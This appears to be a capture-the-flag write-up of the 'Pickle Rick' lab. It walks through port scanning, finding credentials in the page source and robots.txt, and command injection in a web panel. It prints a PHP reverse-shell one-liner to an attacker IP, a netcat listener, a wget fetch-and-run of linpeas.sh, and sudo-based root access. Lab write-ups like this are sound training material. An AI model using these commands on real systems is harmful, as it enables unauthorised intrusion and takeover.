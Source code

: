 # Pickle Rick

IP - 10.10.191.16

## Scanning and Enumeration

nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d3:e5:84:36:c0:98:a2:63:04:01:cc:75:a9:d1:94:2a (RSA)
|   256 b9:37:a1:31:ab:af:e7:a3:1d:bf:32:39:67:00:b6:6b (ECDSA)
|_  256 b9:1d:36:7c:9f:a9:19:a6:be:34:f5:7c:97:0e:18:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|http-title: Rick is sup4r cool
| http-methods:
|  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

dirsearch:
```
[21:38:43] 403 -   277B - /.php

[21:38:59] 200 -    2KB - /assets/

[21:38:59] 301 -   313B - /assets  ->  http://10.10.191.16/assets/

[21:39:13] 200 -    1KB - /index.html

[21:39:16] 200 -   882B - /login.php

[21:39:26] 200 -    17B - /robots.txt
```
- Viewed HTML source code (ctrl + U) on picklerick.thm website and found Username: R1ckRul3s.
- Found password in 10.10.191.16/robots.txt - Wubbalubbadubdub
- Navigate to /login.php and used username R1ckRul3s and password Wubbalubbadubdub to log in.

## Exploit
Command Panel is vulnerable and allowing to use commands to get information. I used "ls -a" to list all files including hidden files and found Sup3rS3cretPickl3Ingred.txt. I was able to get the first ingredient by running - ``` grep . -R ```

## Reverse Shell
- set Terminal to listen - ``` nc -nvlp 4444 ```
- Executed PHP reverse shell and gained access: 
```
php -r '$sock=fsockopen("10.6.41.41",4444);exec("/bin/sh -i <&3 >&3 2>&3");’
```
Cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Navigate to /home > ``` grep . -R ``` to get second ingredient.

## Post-Exploit (LinPEAS)
- Opened new tab in the terminal and ran - ``` python3 -m http.server 8000 ```
- ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```
- ``` chmod +x /tmp/linpeas.sh ```
- ``` /tmp/linpeas.sh ```
- Results from LinePEAS - User www-data may run the following commands on ip-10-10-191-16:
(ALL) NOPASSWD: ALL
> This means that you can run any command as scriptmanager, and optionally set your group to scriptmanager when doing so <
Ran ``` sudo bash > cd root > cat 3rd.txt ``` > got last ingredient




